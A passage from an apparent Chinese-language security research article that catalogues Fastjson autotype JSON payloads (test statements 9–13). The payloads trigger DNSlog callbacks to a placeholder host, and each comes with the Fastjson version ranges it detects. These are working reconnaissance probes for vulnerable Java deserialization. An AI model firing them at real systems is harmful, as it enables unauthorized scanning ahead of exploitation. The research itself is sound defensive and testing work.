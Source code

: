 实验结论：  
带有83的dnslog记录只会在fastjson 1.2.83  
中出现。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/Zickicb0jJV0LM4Mw4pld2dVSBfMkeL2HbokqZAj1yehaYJDWs7SVqDeLKQ5UgKWnQr0GY40SAzhdkC7BDDybktA/640?wx_fmt=png&from=appmsg&randomid=i6on9ixl&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
带有80的dnslog记录，可用范围1.2.9以上，不可用版本1.2.1-1.2.8。  
#### 测试语句9：【1.2.9<=fastjson<=1.2.68】  
```
[{"@type": "java.lang.AutoCloseable","@type": "java.io.ByteArrayOutputStream"},{"@type": "java.io.ByteArrayOutputStream"},{"@type": "java.net.InetSocketAddress"{"address":,"val": "§1§.{{URL}}"}}]
```  
  
实验结论：  
可用范围1.2.9  
以上，1.2.68  
以下，即1.2.9<=fastjson版本<=1.2.68；不可用版本1.2.83、1.2.69-1.2.80、1.2.1-1.2.8。  
####   
#### 测试语句10：【1.2.9<=fastjson<=1.2.47】  
```
{"@type":"java.net.InetAddress","val":"§1§.{{URL}}"}
```  
  
实验结论：  
可用范围1.2.9  
以上，1.2.47  
以下，即1.2.9<=fastjson版本<=1.2.47；不可用版本1.2.83、1.2.66-1.2.80、1.2.48-1.2.62、1.2.1-1.2.8。  
####   
#### 测试语句11：【fastjson>=1.2.9】  
  
单独的两条：  
```
{"@type":"java.net.Inet4Address","val":"§1§.{{URL}}"}
{"@type":"java.net.Inet6Address","val":"§1§.{{URL}}"}
```  
  
实验结论：  
可用范围1.2.9  
以上，即fastjson版本>=1.2.9；不可用版本1.2.1-1.2.8。  
####   
#### 测试语句12：【fastjson>=1.2.9】  
```
{"@type":"java.net.InetSocketAddress"{"address":,"val":"§1§.{{URL}}"}}
```  
  
实验结论：  
可用范围1.2.9  
以上，即fastjson版本>=1.2.9；不可用版本1.2.1-1.2.8。  
####   
#### 测试语句13：【1.2.9<=fastjson<=1.2.24以及1.2.40<=fastjson<=1.2.47】  
```
[{"@type":"java.lang.Class","val":"java.io.ByteArrayOutputStream"},{"@type":"java.io.ByteArrayOutputStream"},{"@type":"java.net.InetSocketAddress"{"address":,"val":"§1§.{{URL}}"}}]
```  
  